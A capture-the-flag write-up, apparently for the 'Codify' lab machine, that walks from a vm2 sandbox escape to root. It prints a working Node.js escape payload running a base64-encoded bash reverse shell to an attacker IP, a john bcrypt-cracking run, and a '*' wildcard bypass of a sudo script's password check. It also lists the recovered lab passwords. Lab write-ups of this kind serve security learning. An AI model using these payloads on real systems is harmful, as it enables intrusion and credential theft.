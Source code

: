 In the editor web we can execute code, but after some tries we found that we cannot execute some modules 

![[Pasted image 20231106125544.png]]

We found a nodejs module called **[vm2](https://gist.github.com/leesh3288/f05730165799bf56d70391f3d9ea187c)** which will help us to escape the sandbox and run arbitrary code. So we build the following payload

```bash
┌──(kali㉿kali)-[~]
└─$ echo 'bash -i >& /dev/tcp/10.10.14.14/9001 0>&1' | base64                  
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xNC85MDAxIDA+JjEK
```

```nodejs
const {VM} = require("vm2");
const vm = new VM();
  
const code = `
aVM2_INTERNAL_TMPNAME = {};
function stack() {
   new Error().stack;
   stack();
}
try {
   stack();
} catch (a$tmpname) {
   a$tmpname.constructor.constructor('return process')().mainModule.require('child_process').exec('echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xNC85MDAxIDA+JjEK"|base64 -d|bash');
}`

console.log(vm.run(code));
```

And we got a shell

```bash
┌──(kali㉿kali)-[~]
└─$ nc -nvlp 9001
listening on [any] 9001 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.11.239] 44234
bash: cannot set terminal process group (1252): Inappropriate ioctl for device
bash: no job control in this shell
svc@codify:~$ whoami
svc
```

Now we need to move. Looking for users we found root (obviously) and joshua. We found the bcrypt hash for joshua in the file `/var/www/contact$ cat tickets.db`

```bash
┌──(kali㉿kali)-[~/Documents/Boxes/Codify-10.10.11.239]
└─$ vim josua.hash                                                     

┌──(kali㉿kali)-[~/Documents/Boxes/Codify-10.10.11.239]
└─$ john josua.hash -w=/usr/share/wordlists/rockyou.txt --format=bcrypt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 4096 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:31 0.00% (ETA: 2023-11-16 13:41) 0g/s 19.93p/s 19.93c/s 19.93C/s sammy..taurus
spongebob1       (?)     
1g 0:00:01:07 DONE (2023-11-06 14:49) 0.01481g/s 20.00p/s 20.00c/s 20.00C/s crazy1..eunice
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Move laterally to joshua:spongebob1 . Now we can execute as sudo one sh script

```bash
joshua@codify:/var/www/contact$ sudo -l
[sudo] password for joshua: 
Matching Defaults entries for joshua on codify:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User joshua may run the following commands on codify:
    (root) /opt/scripts/mysql-backup.sh

joshua@codify:/var/www/contact$ cat /opt/scripts/mysql-backup.sh
!/bin/bash
DB_USER="root"
DB_PASS=$(/usr/bin/cat /root/.creds)
BACKUP_DIR="/var/backups/mysql"

read -s -p "Enter MySQL password for $DB_USER: " USER_PASS
/usr/bin/echo

if [[ $DB_PASS == $USER_PASS ]]; then
/usr/bin/echo "Password confirmed!"
else
/usr/bin/echo "Password confirmation failed!"
exit 1
fi
  
/usr/bin/mkdir -p "$BACKUP_DIR"
  
databases=$(/usr/bin/mysql -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" -e "SHOW DATABASES;" | /usr/bin/grep -Ev "(Database|information_schema|performance_schema)")

for db in $databases; do

/usr/bin/echo "Backing up database: $db"
/usr/bin/mysqldump --force -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" "$db" | /usr/bin/gzip > "$BACKUP_DIR/$db.sql.gz"

done

/usr/bin/echo "All databases backed up successfully!"
/usr/bin/echo "Changing the permissions"
/usr/bin/chown root:sys-adm "$BACKUP_DIR"
/usr/bin/chmod 774 -R "$BACKUP_DIR"
/usr/bin/echo 'Done!'
```

It is comparing the pass introduced with the root password, so we can use the wildcard * to bypass the condition and we can check with pspy to see the real password

```bash
joshua@codify:/tmp$ sudo /opt/scripts/mysql-backup.sh
Enter MySQL password for root: *
Password confirmed!
mysql: [Warning] Using a password on the command line interface can be insecure.
Backing up database: mysql
mysqldump: [Warning] Using a password on the command line interface can be insecure.
-- Warning: column statistics not supported by the server.
mysqldump: Got error: 1556: You can't use locks with log tables when using LOCK TABLES
mysqldump: Got error: 1556: You can't use locks with log tables when using LOCK TABLES
Backing up database: sys
mysqldump: [Warning] Using a password on the command line interface can be insecure.
-- Warning: column statistics not supported by the server.
All databases backed up successfully!
```

![[Pasted image 20231106152134.png]]

And we got the credentials pkljh12k3jhaskjh12kjh3